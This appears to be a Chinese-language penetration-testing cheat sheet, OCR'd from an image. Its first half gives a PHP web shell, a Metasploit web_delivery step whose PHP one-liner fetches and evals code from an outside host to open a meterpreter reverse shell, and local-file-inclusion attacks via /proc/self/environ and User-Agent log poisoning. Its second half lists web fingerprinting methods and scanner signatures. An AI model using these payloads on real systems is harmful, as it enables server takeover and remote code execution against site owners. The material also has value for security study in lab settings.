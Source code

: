 ```php
<？php system（$ _ GET ['cmd']）; ？>
```

> use exploit/multi/script/web_delivery, 使用 set payload windows/meterpreter/reverse_tcp，php 的 cmd=php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.104:8081/xxxxx'))";

```php
<？php system（$ _ GET ['cmd']）; ？>
```

> http://192.168.1.102/dvwa/vulnerabilities/fi/?page=proc/self/environ

```php
Useragent: <？php system（$ _ GET ['cmd']）; ？>
```

> 然后访问 192.168.1.8/lfi/lfi.php?file=/var/www/apachae2/access.log&cmd=id

### 指纹

#### Web 指纹有哪些

1. API：Wappalyzer API
2. 页面关键字 Powered by
3. 特殊文件名/文件 hash/robots
4. 文件标签结构
5. response

#### 如何获取大量指纹信息

1. 开源 API
2. 爬虫

#### 指纹擦除

1. burp : Proxy——>Options”中的“Match and Replace

#### 工具扫描器具有的指纹信息

```python
Acunetix Web Vulnerability Scanner：
        http headers:
            Acunetix-Aspect
            Acunetix-Aspect-Password
            Acunetix-Aspect-Queries
        params:
            acunetix_wvs_security_test
        url:
            /acunetix-wvs-test-for-some-inexistent-file
        cookie params:
            acunetixCookie
    HP WebInspect:
        http headers:
            X-WIPP
            X-RequestManager-Memo
            X-Request-Memo
            X-Scan-Memo
        cookie params:
            CustomCookie
    Netsparker:
        params:
            netsparker
```
